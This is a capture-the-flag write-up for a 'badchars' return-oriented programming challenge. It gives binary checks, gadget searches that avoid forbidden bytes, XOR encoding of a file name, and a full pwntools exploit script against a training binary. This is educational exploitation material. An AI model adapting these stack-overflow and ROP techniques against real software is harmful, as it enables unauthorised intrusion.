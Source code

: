 # Basic Test:

## Check call system into binary file
```bash
strace ./badchars
```

## Check protection into binary file
```bash
checksec ./badchars
```

	Arch: amd64-64-little
	RELRO: Partial RELRO
	Stack: No canary found
	NX: NX enabled
	PIE: No PIE (0x400000)
	RUNPATH: b'.'

<br>

# Exploitation:

## Clear the kernel ring buffer
```bash
sudo dmesg -C
```

## Find offset for overwrite RIP
```bash
python2 -c 'print "A"*40 + "B"*4*' | ./badchars
```

## See output
```bash
sudo dmesg -T
```

	[mer. avril 12 11:33:28 2023] badchars[45666]: segfault at a42424242 ip 0000000a42424242 sp 00007fffb7400930 error 14 in libc.so.6[7ffbc581f000+26000] likely on CPU 0 (core 0, socket 0)

## Find the a gadget for two parameters for moving into a section writable

```bash
ROPgadget --binary ./badchars --badbytes '78|67|61|2e' --only 'pop|ret'
```
 
	0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret

## Find a section writable
```bash
readelf -S ./badchars | grep -B 1 'WA'
```

	  [23] .data             PROGBITS         0000000000601028  00001028 0000000000000010  0000000000000000  WA       0     0     8

## Find a gadget for moving the file name into .data
```bash
ROPgadget --binary ./badchars --badbytes '78|67|61|2e' --only 'mov|ret'
```

	0x0000000000400634 : mov qword ptr [r13], r12 ; ret

## We need to xor the file name for bypass  them badchars
```python
xored_string = xor("flag.txt", 2)
```

## Find a gadget for one parameter to decode xored file name
```bash
ROPgadget --binary ./badchars --badbytes '78|67|61|2e' --only 'pop|ret'
```

	0x00000000004006a0 : pop r14 ; pop r15 ; ret

## Find a xor gadget for decode xored file name
```bash
ROPgadget --binary ./badchars --badbytes '78|67|61|2e' --only 'xor|ret'
```

	0x0000000000400628 : xor byte ptr [r15], r14b ; ret

## Find a xor gadget for one parameter to call print_file function
```bash
ROPgadget --binary ./badchars --badbytes '78|67|61|2e' --only 'pop|ret'
```

	0x00000000004006a3 : pop rdi ; ret

## Find the address of the print_file function
```bash
pwngdb> disass*usefulFunction
```

	   0x0000000000400617 <+0>:     push   rbp
	   0x0000000000400618 <+1>:     mov    rbp,rsp
	   0x000000000040061b <+4>:     mov    edi,0x4006c4
	   0x0000000000400620 <+9>:     call   0x400510 <print_file@plt>
	   0x0000000000400625 <+14>:    nop
	   0x0000000000400626 <+15>:    pop    rbp
	   0x0000000000400627 <+16>:    ret

## Python pwntools script
```python
#!/usr/bin/python3
from pwn import *
""" 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
"""
# For example, to dump all data sent/received, and disable ASLR
# ./exploit.py DEBUG NOASLR

def start(argv=[], *a, **kw):
    if args.GDB: # Set GDBscript below
        return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: # {"server", "port"}
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: # Run locally
        return process([binary] + argv, *a, **kw)
        

def find_eip(payload):
    # Launch process
    p = process(binary)
    p.sendlineafter(">", payload) # If we have a text in get() or read() we need to copy and past in str argument, but if we don't have text in input we can just let ">"
    # Wait for the process to crash
    p.wait()
    
    #eip_offset = cyclic_find(p.corefile.esp) # x86
    eip_offset = cyclic_find(p.corefile.read(p.corefile.rsp, 4)) # x64
    info("Located $RIP offset at {a}".format(a=eip_offset))
    # Return the offset EIP
    return eip_offset

# Specify GDB script for debugging
gdbscript = '''
continue
'''.format(**locals())

# Setup pwntools for the correct architecture
binary = "./badchars"
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(binary, checksec=False)
# Enable verbose logging we can see exactly what is being sent (info/debug)
context.log_level = "info"

# ================================================================
#                         EXPLOIT GOES HERE
# ================================================================

# Start program
io = start()

# Function payload
badchars = "badchars are: 'x', 'g', 'a', '.'"
padding = b"A"*40
pop_r12_pop_r13_pop_r14_pop_r15 = 0x40069c
value_to_xor = 2
xored_string = xor("flag.txt", value_to_xor)
data_section = 0x601044 # 601028 + 16[0x10]
mov_qword_r13_r12 = 0x400634
pop_r14_pop_r15 = 0x4006a0
xor_byte_r15_r14 = 0x400628
pop_rdi = 0x4006a3
call_print_file = 0x400510 # OR print_file@got.plt => [0x601020:8]=0x400516
null = 0x0

info("%s", badchars)
info("padding => %#s", padding)
info("pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret => %#x", pop_r12_pop_r13_pop_r14_pop_r15)
info("xored string by %#d => %#s", value_to_xor, xored_string)
info("data_section  => %#x", data_section)
info("mov qword ptr [r13], r14 ; ret => %#x", mov_qword_r13_r12)
info("pop r14 ; pop r15 ; ret => %#x", pop_r14_pop_r15)
info("xor byte ptr [r15], r14 ; ret => %#x", xor_byte_r15_r14)
info("pop rdi ; ret => %#x", pop_rdi)
info("call print_file@plt => %#x", call_print_file)
info("null byte => %#x", null)

xor_exploit = b""
# Decode xored file name
for c in range(len(xored_string)):
    xor_exploit += pack(pop_r14_pop_r15)
    xor_exploit += pack(value_to_xor)
    xor_exploit += pack(data_section+c)
    xor_exploit += pack(xor_byte_r15_r14)

# Build the payload
payload = flat(
    padding,
    pop_r12_pop_r13_pop_r14_pop_r15,
    xored_string,
    data_section,
    null,
    null,
    mov_qword_r13_r12,
    
    xor_exploit,
    
    pop_rdi,
    data_section,
    call_print_file
)

info("Payload => %#s", payload)

# Send the payload
io.sendlineafter(">", payload) # If we have a text in get() or read() we need to copy and past in str argument, but if we don't have text in input we can just let ">"
io.recvuntil('Thank you!\n')

# Get flag
flag = io.recv()
success(flag)

# Spawn shell
#io.interactive()
```
